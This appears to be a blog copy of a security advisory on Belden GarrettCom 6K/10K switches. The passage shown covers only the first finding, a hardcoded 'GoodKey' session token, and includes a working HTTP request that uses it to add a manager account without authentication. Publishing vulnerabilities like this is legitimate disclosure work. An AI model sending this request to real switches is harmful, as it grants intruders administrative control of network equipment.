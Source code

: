 ```yaml
---
layout: post
title: "Belden Garrettcom 6K/10K Switches: Auth Bypasses, Memory Corruption"
category: Security
date: 2017-05-19
tags:
  - Disclosure
  - Security
  - Advisories
  - Embedded Systems
---
```


Introduction
------------

Vulnerabilities were identified in the Belden GarrettCom 6K and 10KT (Magnum) series
network switches. These were discovered during a black box assessment and
therefore the vulnerability list should not be considered exhaustive;
observations suggest that it is likely that further vulnerabilities exist.
It is strongly recommended that GarrettCom undertake a full whitebox security
assessment of these switches.

The version under test was indicated as: 4.6.0.  Belden Garrettcom released
an advisory on 8 May 2017, indicating that issues were fixed in 4.7.7:
[https://www.belden.com/hubfs/support/security/bulletins/Belden-GarrettCom-MNS-6K-10K-Security-Bulletin-BSECV-2017-8.pdf?hsLang=en](
https://www.belden.com/hubfs/support/security/bulletins/Belden-GarrettCom-MNS-6K-10K-Security-Bulletin-BSECV-2017-8.pdf?hsLang=en)

This is a local copy of an [advisory posted to the Full Disclosure mailing list](
http://seclists.org/fulldisclosure/2017/May/65).


* Table of Contents
{:toc}

GarrettCom-01 - Authentication Bypass: Hardcoded Web Interface Session Token
----------------------------------------------------------------------------

Severity: **High**

The string "GoodKey" can be used in place of a session token for the web
interface, allowing a complete bypass to all web interface authentication.
The following request/response demonstrates adding a user 'gibson' with the
password 'god' on any GarrettCom 6K or 10K switch.

    GET /gc/service.php?a=addUser&uid=gibson&pass=god&type=manager&key=GoodKey HTTP/1.1
    Host: 192.168.0.2
    Connection: close
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.28 Safari/537.36
    Accept: */*
    Referer: https://192.168.0.2/gc/flash.php
    Accept-Encoding: gzip, deflate, sdch, br
    Accept-Language: en-US,en;q=0.8
